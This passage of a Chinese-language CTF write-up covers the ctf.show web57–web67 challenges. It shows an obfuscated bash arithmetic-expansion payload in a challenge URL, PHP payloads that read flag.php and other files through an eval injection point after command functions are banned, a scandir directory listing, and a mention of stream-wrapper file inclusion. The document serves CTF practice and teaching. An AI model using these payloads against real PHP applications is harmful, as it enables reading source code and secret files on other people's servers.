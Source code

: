 ```
http://8eba4c63-5365-45f7-9c6b-7a0d556e22f7.challenge.ctf.show/?c=$((~$(($((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))%20$((~$(())))))))
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091138556.png)

## web58

命令执行的函数都被 ban 了, 但是 `file_get_contents()` 还能用

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091147569.png)

然后看到了 index 里的 `highlight_file(__FILE__)`, 也能够读取 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091147054.png)

payload 如下

```php
echo file_get_contents('flag.php')
echo fread(fopen('flag.php','r'),filesize('flag.php'))
highlight_file('flag.php')
show_source('flag.php')
readfile('flag.php')
print_r(file('flag.php'));
```

之前的无参数读取文件在这里也能用

## web59-65

同上

或者配合伪协议进行文件包含, eval 在这里比较灵活, 方法很多

## web66

flag 换了个位置

```
c=print_r(scandir('/')); # 列出 / 目录下的所有文件
c=highlight_file('/flag.txt');
```

其实只要题目源码能看得到, `highlight_file()` 就一直能用...

## web67

`print_r()` 被过滤了, 换成 `var_dump()` 或者 `var_export()`
